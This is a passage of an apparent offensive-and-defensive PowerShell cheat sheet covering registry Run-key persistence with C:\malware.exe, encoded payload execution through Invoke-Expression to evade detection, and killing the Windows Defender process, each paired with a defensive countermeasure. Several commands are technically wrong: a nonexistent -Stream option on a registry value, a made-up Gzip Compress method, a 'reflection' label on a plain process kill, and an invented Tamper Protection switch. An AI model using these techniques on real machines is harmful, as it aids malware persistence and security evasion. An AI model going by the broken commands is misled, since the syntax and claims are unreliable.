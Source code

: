### **6. Persistence via Shadow Registry**  
#### **Offensive Command**  
```powershell  
# Hide registry key using NTFS ADS  
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "C:\malware.exe" -Stream "HiddenStream"  
```  
- **Purpose**: Stores malicious payload in an Alternate Data Stream (ADS).  

#### **Defense**  
- Scan for ADS streams:  
  ```powershell  
  Get-Item -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Stream *  
  ```  

---

### **7. Obfuscated Payload Delivery**  
#### **Offensive Command**  
```powershell  
# Gzip + Base64-encoded payload  
$compressed = [IO.Compression.Gzip]::Compress([Text.Encoding]::UTF8.GetBytes('malicious code'));  
$encoded = [Convert]::ToBase64String($compressed);  
Invoke-Expression ([Text.Encoding]::UTF8.GetString([IO.Compression.Gzip]::Decompress([Convert]::FromBase64String($encoded))))  
```  
- **Purpose**: Evades signature-based detection.  

#### **Defense**  
- Block script execution:  
  ```powershell  
  Set-ExecutionPolicy Restricted -Force  
  ```  

---

### **8. Disable Defender via Reflection**  
#### **Offensive Command**  
```powershell  
# Kill Defender using .NET reflection  
$defender = Get-Process -Name MsMpEng; $defender.Kill()  
```  
- **Purpose**: Terminates Defender processes.  

#### **Defense**  
- Enable **Tamper Protection**:  
  ```powershell  
  Set-MpPreference -EnableTamperProtection Enabled  
  ```  

---
